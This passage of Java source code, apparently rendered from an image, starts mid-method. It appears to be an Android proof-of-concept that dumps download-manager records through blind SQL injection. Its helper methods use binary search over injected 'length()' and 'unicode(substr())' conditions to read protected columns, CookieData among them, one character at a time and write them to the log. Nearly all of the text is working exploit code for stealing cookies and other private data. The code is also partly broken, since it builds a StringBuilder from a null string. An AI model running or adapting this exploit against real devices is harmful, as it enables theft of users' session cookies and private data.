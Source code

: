 ```
                   String rowUri = cur.getString(cur.getColumnIndex("uri"));
                   String rowTitle = cur.getString(cur.getColumnIndex("title"));
                   String rowDescription = cur.getString(cur.getColumnIndex("description"));
                   String string = null;
                   StringBuilder sb = new StringBuilder(string);
                   sb.append("DOWNLOAD ID ").append(rowId);
                   sb.append("\nData: ").append(rowData);
                   sb.append("\nUri: ").append(rowUri);
                   sb.append("\nTitle: ").append(rowTitle);
                   sb.append("\nDescription: ").append(rowDescription);
 
                   if (dumpProtectedColumns) {
                       int uid = binarySearch(rowId, "uid");
                       sb.append("\nUID: ").append(uid);
 
                       dumpColumn(rowId, "CookieData", sb);
                       dumpColumn(rowId, "ETag", sb);
                   }
 
                   Log.w("WindXaa",sb.toString());
               }
               Log.e("WindXaa","\n\nDUMP FINISHED");
           }
       } finally {
           if (cur != null)
               cur.close();
       }
   }
 
   private void dumpColumn(int rowId, String columnName, StringBuilder sb) {
       if (isTrueCondition(rowId, "length(" + columnName + ") > 0")) {
           int len = binarySearch(rowId, "length(" + columnName + ")");
 
           sb.append("\n" + columnName + ": ");
           for (int i = 1; i <= len; i++) {
               int c = binarySearch(rowId, "unicode(substr(" + columnName + "," + i + ",1))");
               String newChar = Character.toString((char) c);
               sb.append(newChar);
           }
       }
   }
 
   private int binarySearch(int id, String sqlExpression) {
       int min = 0;
       int max = 20000;
       int mid = 0;
 
       while (min + 1 < max) {
           mid = (int) Math.floor((double) (max + min) / 2);
 
           if (isTrueCondition(id, sqlExpression + ">" + mid))
               min = mid;
           else
               max = mid;
       }
 
       if ((mid == max) && isTrueCondition(id, sqlExpression + "=" + mid))
           return mid;
       else if (isTrueCondition(id, sqlExpression + "=" + (mid + 1))) // Extra check
           return mid + 1;
 
       return -1;
   }
```